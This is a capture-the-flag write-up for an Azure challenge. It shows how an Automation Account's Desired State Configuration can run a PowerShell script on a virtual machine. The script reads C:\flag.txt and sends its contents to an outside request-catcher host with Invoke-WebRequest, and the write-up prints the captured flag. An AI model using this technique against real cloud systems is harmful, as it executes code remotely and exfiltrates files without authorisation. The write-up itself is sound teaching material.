








# DSC

## Challenge



## Solution

The name of the challenge, DSC, refers to Desired State Configuration. It is a mechanism for using scripts to define a state you want your virtual machines to have.

With DSC you can define a script which can create files, install applications and features, run configuration scripts etc.

The "State configuration (DSC)" option is under the Automation Account.



To create a new configuration using the Portal you first have to go to the Configurations tab, and then click the Add button in the top. If you click Add without going to Configurations tab first you get a different Add-experience.

This is the script used to solve the challenge and get the flag. The script was written by my teammate Goophy, which was the one who solved the challenge for us during the CTF.

```powershell
Configuration stest
{
    Import-DscResource -ModuleName 'PSDesiredStateConfiguration'

    Node localhost
    {
        Script ScriptExample
        {
           SetScript = {
               $foo = Get-Content -Path C:\flag.txt
               Invoke-WebRequest -URI "https://fizzbuzz.requestcatcher.com/$foo"
           }
           TestScript = { Test-Path "C:\foo.txt" }
           GetScript = { @{ Result = (Get-Content C:\flag.txt) } }
        }
    }
}
```



As an alternative to the Portal it is also possible to create the configuration using the `Import-AzAutomationDscConfiguration` command.

After creating the configuration, you need to click on it in the Portal, click on Compile, and wait for compilation job to complete.



Then go back to the Automation Account, and click on the virtual machine we want to run the script on.



Click "Assign node configuration"


Select the "stest" configuration we just made.



The configuration is Pending



After a while the flag is sent to us



```
EPT{a4e81c6d-12bb-abcd-9d89-3fb862373568}
```

This YouTube video does a nice job of explaining DSC: https://www.youtube.com/watch?v=2OfTnwwxLvY